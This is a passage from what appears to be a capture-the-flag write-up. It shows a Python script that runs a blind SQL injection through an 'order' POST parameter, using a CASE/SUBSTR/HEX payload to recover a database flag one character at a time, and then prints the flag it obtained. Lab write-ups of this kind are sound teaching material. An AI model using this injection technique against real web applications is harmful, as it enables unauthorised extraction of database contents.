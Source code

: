 ```python
def getFlag(foundTbaleName):
  flag = 'CHTB{'
  lookForCharOfIndex = 6

  while True:
    foundLast = '{'
    for hexie in listOfHexies:
      data = {"order":f"(CASE (SELECT HEX(SUBSTR(flag, {lookForCharOfIndex}, 1)) from {foundTbaleName} ) WHEN '{hexie}' THEN name ELSE count END) DESC--"} # look for FLAG!

      r = requests.post(url, data=data)
      check = '"id":4' in r.text[0:10]
      if check == True:
        foundLast = dictie[hexie]
        flag += dictie[hexie]
        lookForCharOfIndex += 1
        print (flag)
    if foundLast == '}':
      break

tableName = findTableName()
getFlag(tableName)
```

Which will spit out our flag

```sh
CHTB{order_me_this_juicy_info}
```

import DonateCard from '@site/src/components/DonateCard';

<DonateCard/>